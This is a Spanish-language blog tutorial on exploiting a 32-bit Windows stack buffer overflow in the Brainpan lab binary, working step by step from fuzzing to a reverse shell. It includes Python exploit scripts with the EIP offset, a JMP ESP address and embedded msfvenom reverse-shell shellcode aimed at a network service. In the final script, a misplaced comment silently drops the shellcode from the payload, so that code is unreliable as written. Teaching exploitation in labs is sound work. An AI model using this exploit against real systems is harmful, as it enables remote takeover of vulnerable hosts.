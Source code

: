 ```yaml
---
title: Buffer Overflow Windows x32
author: thespartoos
date: 2025-01-07 00:34:00 +0800
tags: [Binary Exploitation]
categories: [Buffer Overflow x32]
image:
  path: https://thespartoos.github.io/assets/img/favicons/BOFWindows/portada.png
  alt:
---
```



### Plan de investigación


Situémonos en el escenario de una máquina Windows de 32 bits en donde este ejecutando un binario el cual exponga un servicio vulnerable en la red. En este caso vamos a estar explicando esta técnica de explotación a través de la máquina Brainpan localizada tanto en [**TryHackme**](https://tryhackme.com/) como en [**Vulnhub**](https://www.vulnhub.com/).


Para este tipo de ataque será necesario de alguna manera obtener el PE ejecutable de Windows para poder analizarlo y en el caso explotar esta vulnerabilidad.


### Creación del entorno


Antes que nada deberemos de tener un entorno adecuado para explotar esta vulnerabilidad. Necesitaremos tener una máquina Windows preferiblemente elegir la versión del SO igual que al que vamos a atacar, quiero decir si el servicio de la máquina objetivo es un Windows 7 de x32, nosotros deberemos de elegir una máquina Windows 7 de x32 para poder realizar las pruebas y ver si lo podemos explotar antes de manera local y posteriormente realizarlo para la máquina objetivo para que no hayan fallos en la máquina objetivo. Para ello podemos utilizar las siguientes herramientas.


<div style="display: flex; justify-content: center; align-items: center; height: 10vh;">
    <img src="https://thespartoos.github.io/assets/img/favicons/BOFWindows/windows.png" alt="" width="100" height="100">
    <img src="https://thespartoos.github.io/assets/img/favicons/BOFWindows/vmware.png" alt="" width="60" height="60">
</div><br>

Una vez lo tenemos en red deberemos de tener desactivado el firewall o configurar una regla para poder exponer el puerto que expone localmente el binario y aceptar conexiones desde otros equipos al servicio de nuestro binario. Ajustar tanto una Regla de entrada como una de salida.


![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/firewall.png)

Por último en caso para poder explotar esta vulnerabilidad deberemos de desactivar el DEP.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/desactivar.png)


### Análisis del binario

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/brainpan.png)


Cuando ya tenemos conectividad con nuestra máquina local y ejecutamos el binario desde nuestra máquina de atacante (kali) vamos a enumerar el puerto de nuestra máquina local para ver que hay conectividad y se está ejecutando bien el binario.


```bash
nmap -p 9999 --open -vvv -Pn -n 192.168.1.X
```


Con este comando podemos ver si el puerto del servicio que ofrece el binario está expuesto. Para ver que tenemos conectividad ejecutamos el siguiente comando.


```bash
nc 192.168.1.X 9999
```

Antes que nada vamos a ver como funciona el programa el cual vamos analizar. Podemos observar que hay un campo en donde nos piden la contraseña, podemos probar a fuzzear ese campo para ver si es vulnerable, para ello lanzaremos una gran cantidad de datos para ver como lo maneja la aplicación.

<div style="display: flex; justify-content: center; align-items: center; height: 35vh;">
    <img src="https://thespartoos.github.io/assets/img/favicons/BOFWindows/break.png" alt="" width="500" height="500">
    <img src="https://thespartoos.github.io/assets/img/favicons/BOFWindows/fuzz.png" alt="" width="500" height="500">
</div>

Como podemos ver en las imagenes anteriores el programa esta copiando el buffer que nosotros le mandamos a otra variable la cual podemos intuir que función vulnerable puede ser &nbsp;`strcpy`&nbsp;.

> Cuando se realiza este tipo de procedimientos deberemos de reiniciar la aplicacion porque el servicio ha sido interrumpido y ha crasheado.
{: .prompt-warning }

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/strings.png)

Una vez comprobado que es vulnerable a este ataque vamos a proceder a explotar la vulnerabilidad para que nos de una reverse shell o ejecutar cualquier otro conjunto de instrucciones. Para ello deberemos de instalar en la máquina local de Windows 7 la herramienta de **Inmmunity debugger**, hay muchas otras más.

Debemos de descargarnos un archivo de python que deberemos de añadirlo a nuestra aplicación de Inmmunity debugger.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/mona.png)

Este programa sirve para analizar el flujo del programa después de exceder el buffer. Lo primero que tenemos que hacer es atachearnos al proceso de la aplicación vulnerable.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/attach.png)

`File - attach`

Una vez seleccionado el proceso debemos de arrancarlo dado que el programa lo para al realizar el attach.

Ahora podremos realizar el exceso del buffer para calcular cuantos bytes necesitamos para manejar el EIP para posteriormente ejecutar shellcode en la pila **(ESP)**.

El primer paso es identificar la cantidad de bytes exacta para provocar un buffer overflow y conocer con cuantos bytes controlamos el EIP. Para lo haremos de una manera sencilla utilizando la herramienta de metasploit llamada &nbsp;`pattern_create.rb`&nbsp;. 

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/patron.png)

Lo que hacemos con esta herramientas es generar un patron que lanzaremos sobre el campo vulnerable, donde ponemos la contraseña. Cuando enviemos la data nos fijaremos en el Immunity debugger que dirección tiene EIP para a través de la otra utilidad de metasploit &nbsp;`pattern_offset.rb`&nbsp; saber cuantos bytes corresponden para llegar al EIP.

<div style="display: flex; justify-content: center; align-items: center; height: 35vh;">
    <img src="https://thespartoos.github.io/assets/img/favicons/BOFWindows/eip_pattern.png" alt="" width="500" height="500">
    <img src="https://thespartoos.github.io/assets/img/favicons/BOFWindows/offset.png" alt="" width="500" height="500">
</div>

La dirección de EIP en este caso es &nbsp;`0x35724134`&nbsp;. Como vemos al sacar el offset nos da un total de 524 caracteres. Para comprobarlo deberemos de generar nuestro patrón sencillo para identificar que exactamente son 524 bytes para llegar a EIP.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/test.png)

Una vez generado lo volvemos a lanzar contra el servicio sobre el campo vulnerable y vemos como se comporta.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/flujo_test.png)

La dirección de EIP vale &nbsp;`0x42424242`&nbsp; lo cual equivale a las letras "B" en hexadecimal por lo tanto las 524 primeros bytes son el offset y los 4 bytes siguientes son los que se quedaran en el registro de EIP, el resto de bytes que enviamos, las letras "C", podemos ver que están en el ESP. Lo siguiente que deberemos de hacer será encontrar que tipos de badchars no se interpretarían en el ESP dado que en el caso de que hubiera badchars los tendríamos que quitar de nuestro shellcode porque sino no funcionaría la instrucción que le indiquemos.

> El ESP será el registro en donde deberemos de arrojar nuestro shellcode para que lo interprete y lo ejecute.
{: .prompt-info }

Lo primero para más comodidad dentro del programa crearemos una carpeta de trabajo.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/workingFolder.png)

Una vez creada generaremos una serie de bytes para lanzarlo en el campo vulnerable y ver que bytes es capaz el ESP de interpretar y cuales son badchars. Por defecto es buenar práctica eliminar el byte &nbsp;`0x00`&nbsp; ya que suele ser uno de los más comunes entre el &nbsp;`0x0a 0x0d`&nbsp;.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/bytearray.png)

Una vez tengamos la serie de bytes que nos lo crea en la carpeta de trabajo llamado como **bytearray** deberemos de pasarlo a nuestra máquina de atacante para crearnos un script en python sencillo para automatizarnos y que sea más rápido la carga de los bytes.

```python
#!/usr/bin/python3

import socket

from struct import pack

offset = 524
beforeEIP = b"A"* offset
eip = b"B"*4 # JMP ESP

afterEIP = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = beforeEIP + eip + afterEIP

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.152", 9999))
s.send(payload)
s.close()
```

Como vemos el offset que es lo que va antes del EIP sería lo que hemos calculado antes los 524 bytes, posteriormente indicamos en el valor de EIP y posteriormente lo que estará en el ESP que será nuestro bytearray generado, posteriormente se conectara al servicio y enviará la data.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/badchars.png)


Si nos fijamos en la imagen abajo a la izquierda veremos los bytes **01 02 03...**, esos corresponde a lo que le estamos enviando &nbsp;`\x01\x02\0x03`&nbsp; como para el resto lo mismo. En el caso de que uno no apareciera en ese apartado (flujo de ESP), es que sería un badchar. Para automatizar esto y no hacerlo viendolo a ojo podemos utilizar la herramienta de mona.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/compare.png)


Lo que esta haciendo es ver que si el contenido que generamos del bytearray coincide con los datos que hay en la direccion de la memoria del ESP.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/nobadchars.png)

En este caso no hay mas badchars por lo tanto podemos generar ya nuestro shellcode sabiendo que podemos utilizar todos los bytes menos el &nbsp;`0x00`&nbsp;. Pero para completar más esta guía en el caso de que hubiera habido más badchars nos habría salido una ventana como esta.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/casoBadchars.png)

Por lo tanto deberíamos de generar otro bytearray quitando **00 0a y 0d** con los mismo pasos que antes y repetir lo mismo hasta encontrar que no hay más badchars.

Continuando con el desarrollo del exploit necesitamos que EIP apunte a una dirección que actúe como un salto al ESP para que vaya directamente al ESP y ejecute nuestro shellcode. Deberemos de saber que instrucción en ensamblador corresponde a un salto al ESP, utilizaremos la herramienta de metasploit llamada &nbsp;`nasm_shell.rb`&nbsp;.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/nasm.png)

Vemos que las instrucciones son &nbsp;`\xFF\xE4`&nbsp;. Para ello deberemos de ver las protecciones que tiene el binario antes que nada y localizar un modulo que tenga todas las protecciones en **False**.

```
!mona modules
```

Eso sería para ver los módulos existentes junto con sus protecciones. al localizar un módulo sin ninguna protección buscamos dentro la instrucción que vimos antes y lo hacemos de la siguiente manera.

<div style="display: flex; justify-content: center; align-items: center; height: 35vh;">
    <img src="https://thespartoos.github.io/assets/img/favicons/BOFWindows/modules.png" alt="" width="500" height="500">
    <img src="https://thespartoos.github.io/assets/img/favicons/BOFWindows/jump.png" alt="" width="500" height="500">
</div>

Para comprobarlo podemos ir a esa dirección de memoria que nos arroja que tiene permisos de &nbsp;`PAGE_EXECUTE_READ (RX)`&nbsp;, esto es importante ya que podemos ejecutar shellcode en el ESP teniendo ese tipo de protección.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/breakpoint.png)

En la dirección que obtuvimos del módulo vemos que se encuentra esa instrucción. Por lo tanto deberemos de modificar nuestro exploit para en vez de poner las letras **"B"** que poníamos antes para que EIP valiera eso, ahora debemos de indicar esta dirección de la memoria para que nos aplique el salto.

Después de modificar el valor del EIP por la dirección del &nbsp;`JMP ESP`&nbsp; es el paso de generar el shellcode descartanto los badchars que identificamos previamente.

![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/shellcode.png)

A través de la utilidad de **msfvenom** generamos un shellcode que nos de una reverse shell, importante indicar la plataforma para windows y la arquitectura x86 y los badchars. Una vez generado el shellcode vamos a adaptarlo a nuestro exploit y a completarlo, el resultado sería el siguiente. <br>
Al generar el shellcode lo hemos generado con un encoder polimórfico por lo tanto deberemos de darle un tiempo para que se descifre en la memoria por lo tanto podemos utilizar la técnica de añadir varios **NOP** (No operation code) al principio del ESP para que no haga nada durante un tiempo y le de tiempo a descifrarse y cuando llegue a las instrucciones del shellcode las lleve a cabo con éxito. 


```python
#!/usr/bin/python3

import socket

from struct import pack

offset = 524
beforeEIP = b"A"* offset
eip = pack("<I", 0x311712f3) # JMP ESP

afterEIP = (b"\xda\xc5\xd9\x74\x24\xf4\x5e\x33\xc9\xba\x73\x92\x60\x6e"
b"\xb1\x52\x31\x56\x17\x83\xc6\x04\x03\x25\x81\x82\x9b\x35"
b"\x4d\xc0\x64\xc5\x8e\xa5\xed\x20\xbf\xe5\x8a\x21\x90\xd5"
b"\xd9\x67\x1d\x9d\x8c\x93\x96\xd3\x18\x94\x1f\x59\x7f\x9b"
b"\xa0\xf2\x43\xba\x22\x09\x90\x1c\x1a\xc2\xe5\x5d\x5b\x3f"
b"\x07\x0f\x34\x4b\xba\xbf\x31\x01\x07\x34\x09\x87\x0f\xa9"
b"\xda\xa6\x3e\x7c\x50\xf1\xe0\x7f\xb5\x89\xa8\x67\xda\xb4"
b"\x63\x1c\x28\x42\x72\xf4\x60\xab\xd9\x39\x4d\x5e\x23\x7e"
b"\x6a\x81\x56\x76\x88\x3c\x61\x4d\xf2\x9a\xe4\x55\x54\x68"
b"\x5e\xb1\x64\xbd\x39\x32\x6a\x0a\x4d\x1c\x6f\x8d\x82\x17"
b"\x8b\x06\x25\xf7\x1d\x5c\x02\xd3\x46\x06\x2b\x42\x23\xe9"
b"\x54\x94\x8c\x56\xf1\xdf\x21\x82\x88\x82\x2d\x67\xa1\x3c"
b"\xae\xef\xb2\x4f\x9c\xb0\x68\xc7\xac\x39\xb7\x10\xd2\x13"
b"\x0f\x8e\x2d\x9c\x70\x87\xe9\xc8\x20\xbf\xd8\x70\xab\x3f"
b"\xe4\xa4\x7c\x6f\x4a\x17\x3d\xdf\x2a\xc7\xd5\x35\xa5\x38"
b"\xc5\x36\x6f\x51\x6c\xcd\xf8\x9e\xd9\xcc\x58\x76\x18\xce"
b"\x99\x3c\x95\x28\xf3\x52\xf0\xe3\x6c\xca\x59\x7f\x0c\x13"
b"\x74\xfa\x0e\x9f\x7b\xfb\xc1\x68\xf1\xef\xb6\x98\x4c\x4d"
b"\x10\xa6\x7a\xf9\xfe\x35\xe1\xf9\x89\x25\xbe\xae\xde\x98"
b"\xb7\x3a\xf3\x83\x61\x58\x0e\x55\x49\xd8\xd5\xa6\x54\xe1"
b"\x98\x93\x72\xf1\x64\x1b\x3f\xa5\x38\x4a\xe9\x13\xff\x24"
b"\x5b\xcd\xa9\x9b\x35\x99\x2c\xd0\x85\xdf\x30\x3d\x70\x3f"
b"\x80\xe8\xc5\x40\x2d\x7d\xc2\x39\x53\x1d\x2d\x90\xd7\x3d"
b"\xcc\x30\x22\xd6\x49\xd1\x8f\xbb\x69\x0c\xd3\xc5\xe9\xa4"
b"\xac\x31\xf1\xcd\xa9\x7e\xb5\x3e\xc0\xef\x50\x40\x77\x0f"
b"\x71")
payload = beforeEIP + eip + b"\x90"*16 # NOPS (No operation code) + afterEIP

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.152", 9999))
s.send(payload)
s.close()
```

Por último reiniciamos la aplicación vulnerable y ejecutamos el exploit.


![](https://thespartoos.github.io/assets/img/favicons/BOFWindows/exploit.png)


Como vemos ha sido explotado correctamente y tenemos una reverse shell interactiva. Espero que te haya servido este post !. 




